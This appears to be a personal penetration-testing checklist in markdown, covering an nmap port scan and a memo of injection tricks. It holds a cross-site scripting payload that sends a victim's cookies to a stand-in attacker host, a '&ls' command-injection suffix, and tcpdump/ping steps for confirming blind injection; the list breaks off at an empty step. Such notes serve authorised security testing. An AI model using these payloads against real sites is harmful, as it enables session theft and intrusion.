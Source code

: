 # Pentest procedure

My personal procedure and ticks for pentest

## Discovery

The goal here is to discover the machine

1. Port scan

   Using nmap: `nmap -sV -p- -vvv -o nmap.txt $ip`

## Injection

Here, a memo of the different possible injections:
* insert javascript code (ex: `<script>document.location='http://<yourip>/?cookie='+document.cookie</script>`)
* continue linux command with '&' (ex: `&ls`)

Before inserting payload, we want to check if the command injection work.

1. open tcpdump to read icmp requests: `sudo tcpdump -i any -A icmp`
2. check that it works: `ping -c 1 $ip`
3. be sure your firewall accept icmp requests
4. 
